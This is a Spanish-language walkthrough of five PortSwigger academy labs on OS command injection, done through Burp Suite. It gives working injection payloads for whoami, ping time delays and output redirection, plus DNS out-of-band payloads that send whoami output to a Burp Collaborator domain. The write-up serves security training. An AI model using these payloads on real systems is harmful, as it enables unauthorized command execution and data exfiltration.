







# OS command injection

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

## Indice


## 1. Lab: OS command injection, simple case

```text
Esta práctica de laboratorio contiene una vulnerabilidad de inyección de comandos del sistema operativo en el verificador de stock de productos.

La aplicación ejecuta un comando de shell que contiene los ID de tienda y producto proporcionados por el usuario, y devuelve la salida sin procesar del comando en su respuesta.

Para resolver la práctica de laboratorio, ejecute el whoamicomando para determinar el nombre del usuario actual.
```

Como nos dice la informacion, buscaremos un articulo cualquiera, y le damos clic en el boton **Check stock** y lo interceptamos con el burpsuite y lo enviamos al **Repeater**.



Como podemos ver, todo ocurre de manera normal, ahora intentaremos ejecutar comandos agregandole **& whoami**.



Si lo enviamos así no va a obtener nada, ya que el **&** lo esta considerando como el cierre del parametro y el inicio de otro asi que lo que haremos será seleccion todo el parametro **1&whoami** y encodearlo con las teclas **Ctrl + U**.


Como podemos ver, si ejecutó el comando **whoami**, y si vamos a el sitio web, nos damos cuenta que si figura como resuelto.


## 2. Lab: Blind OS command injection with time delays

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para provocar un retraso de 10 segundos.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.


E interceptamos el paquete con burpsuite y lo enviamos al reapiter.


Como podemos ver, no obtener ninguna respuesta al realizar el comando, ahora intentaremos generar un retardo en la solicitud agregandole un **ping -c 10 127.0.0.1**.


Lo cual logró generar el retrazo, ya que generamos el comando ping dentro de los caracteres **''$(''** y **'')'** que sirven para ejecutar strings dentro de strings.


## 3. Lab: Blind OS command injection with output redirection  

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puede utilizar la redirección de salida para capturar la salida del comando. Hay una carpeta en la que se puede escribir en:

/var/www/images/

La aplicación sirve las imágenes para el catálogo de productos desde esta ubicación. Puede redirigir la salida del comando inyectado a un archivo en esta carpeta y luego usar la URL de carga de la imagen para recuperar el contenido del archivo.

Para resolver el laboratorio, ejecute el whoamicomando y recupere el resultado.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.



E interceptamos el paquete con burpsuite y lo enviamos al reapiter.



Como en el ejemplo anterior, no devuelve ningun resultado lo que haremos será ejecutar el comando **whoami** y lo enviaremos a la ruta **/var/www/images/**.

```bash
$(whoami > /var/www/images/whoami.txt) #Con url encode (seleccionar texto y Ctrl + u)
```

Lo cual de deberia mostrar en la url:

```bash
https://acfb1fb31f59b03d80493c9e006000ac.web-security-academy.net/images/whoami.txt
```

Ahora realizaremos esto en el repeater en el parametro **message** y lo enviamos.



Y ahora accedemos por navegador a la url para revisar que el comando de ejecutó correctamente:


Ahora si vamos a la pagina principal del laboratorio vemos que se realizó correctamente.


## 4. Lab: Blind OS command injection with out-of-band interaction

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asincrónica y no tiene ningún efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para emitir una búsqueda de DNS en Burp Collaborator.
```

Entonces, necesitamo buscar la seccion de **Burp Collaborator**, para ello nos ubicamos en la pestaña **Burp** y en la opcion **Burp Collaborator Client**.  y le damos clic en **Copy to clipboard**, con lo cual obtenemos el siguiente:

```bash
z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net
```

Ahora, vamos a interceptar el paquete del feedback y lo enviamos al repeater editando el parametro **message** por lo siguiente.

```bash
$(nslookup z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net)
```

Como se ve en la siguiente imagen:



Podemos ver en nuestra ventana de **Burp Collaborator Client**, podemos ver que si se realizaron las consultas dns.



Ahora verificamos en el home del laboratorio si lo completamos.


## 5. Lab: Blind OS command injection with out-of-band data exfiltration

Como en el laboratorio entramos al **Burp Collaborator Client**, y damos clic en **Copy to clipboard**, con lo cual obtenemos el siguiente:

```bash
8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net
```

Ahora interceptamos el paquete del feedback como en el ejemplo anterior y lo enviamos al repeater y para este caso, debemos obtener la salida de un comando así que anidaremos dos comandos usando esta vez el caracter **`** (tilde invertida) y el payload será de la siguiente manera.

```bash
$(nslookup `whoami`.8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net)
```

Lo cual en el intruder quedaria de la siguiente manera y lo enviamos.


Podemos ver en nuestra ventana de **Burp Collaborator Client**, podemos ver que si se realizaron las consultas dns.


Y como podemos ver la consulta dns se hizo a **peter-xR6lKE.8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net**. Entonces la respuesta del comando whoami sería.

```bash
peter-xR6lKE
```

Ahora verificamos en el home del laboratorio si lo completamos y nos pide que ingresemos el valor que obtuvimos.


Y luego de ello podemos ver que tenemos el laboratorio resuelto al fin :D


## CONCLUSION

Estos ejercicios son un poco mas sencillos pero nos sirve para aprender las diferentes formas en la que se puede presentar un Command Injection, que aunque parezca poco todavia hay sitios webs que los usan, y obviamente la mayoria de estos son de modo a ciegas.


